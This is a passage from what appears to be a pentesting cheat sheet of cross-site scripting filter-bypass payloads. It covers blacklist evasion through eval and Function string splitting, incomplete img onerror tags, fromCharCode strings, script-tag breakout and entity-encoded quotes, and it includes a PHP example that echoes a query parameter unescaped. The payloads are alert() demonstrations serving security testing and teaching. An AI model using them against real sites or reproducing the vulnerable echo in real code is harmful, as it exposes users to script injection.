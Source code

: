 Since many XSS filters only recognize exact lowercase or uppercase patterns, this can sometimes evade detection by tricking simple case-sensitive filters.

## Bypass Tag Blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

## Bypass Word Blacklist with Code Evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

## Bypass with Incomplete HTML Tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

## Bypass Quotes for String

```javascript
String.fromCharCode(88,83,83)
```

## Bypass Quotes in Script Tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

## Bypass Quotes in Mousedown Event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```
